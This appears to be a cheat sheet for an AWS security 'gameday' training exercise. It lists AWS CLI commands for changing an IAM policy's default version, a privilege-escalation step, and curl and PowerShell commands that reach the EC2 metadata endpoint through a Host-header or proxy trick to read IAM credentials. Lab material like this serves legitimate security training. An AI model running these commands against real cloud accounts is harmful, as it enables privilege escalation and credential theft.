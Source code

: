 # **Scenario_1**

  Dashboard  <https://gameday-dashboard.s3.eu-central-1.amazonaws.com/index.html>

### **Configure your profile**

`aws configure --profile scenario1_username`

### **Get the list of policies attached to your user**

`aws iam list-attached-user-policies --user-name <scenario1_your_username> --profile <scenario1_username>`

### **Get a policy versions** (*your_username is your name before @*)

`aws iam list-policy-versions --policy-arn <generatedARN>/<your_policy_name> --profile <scenario1_username>`

### **Describe a specific version**

`aws iam get-policy-version --policy-arn <generatedARN>/<your_policy_name> --version-id <versionID> --profile scenario1_username`

### **Please be sure that you are setting the correct version (make get-policy-versions for all policy versions)**

`aws iam set-default-policy-version --policy-arn <generatedARN>/<your_policy_name> --version-id <versionID> --profile scenario1_username`

### **Describe all available s3 buckets**

`aws s3 ls --profile scenario1_username`

### ***In case of error, set 1-st version and try again with another version***

---

# **Scenario_2**

  Dashboard  <https://gameday-dashboard.s3.eu-central-1.amazonaws.com/index.html>

### **-H, --header 'Host: - Extra header to include in the request when sending HTTP to a server**

`curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'`

`Invoke-RestMethod -Proxy http://18.159.62.175 -Uri "http://169.254.169.254/latest/meta-data/iam/security-credentials/"` - `powershel`
